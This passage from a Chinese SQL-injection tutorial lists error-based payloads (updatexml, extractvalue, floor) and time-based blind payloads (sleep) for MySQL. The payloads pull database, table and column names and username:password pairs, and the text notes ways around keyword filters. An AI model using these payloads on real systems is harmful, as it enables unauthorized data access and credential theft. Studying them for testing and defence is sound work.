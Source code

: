 **1、尝试用单引号报错**

**2、获取数据库名**
```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+


--0x7e是"~"符号的16进制，在这作为分隔符
```

**3、获取表名**
```sql
' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),0x7e),1)--+
```

**4、获取字段名**
```sql
' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),0x7e),1)--+
```

**5、取数据**
```sql
' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)--+
```
其他函数payload语法：
```sql
--extractvalue
' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+

--floor()
' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+
```

### 时间型盲注

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用`benchmark`，`sleep`等造成延时效果的函数。

如果`benkchmark`和`sleep`关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；例如使用[`heavy query`](https://www.anquanke.com/post/id/104319)进行延时注入

或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。

**1、利用sleep判断数据库名长度**
```sql
' and sleep(5) and 1=1--+    页面返回不正常，延时5秒
' and sleep(5) and 1=2--+    页面返回不正常，不延时

and if(length(database())>1,sleep(5),1)
--if(条件表达式，真，假) --C语言的三目运算符类似
```

**2、获取数据库名**
```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```
具体数据以此类推即可。
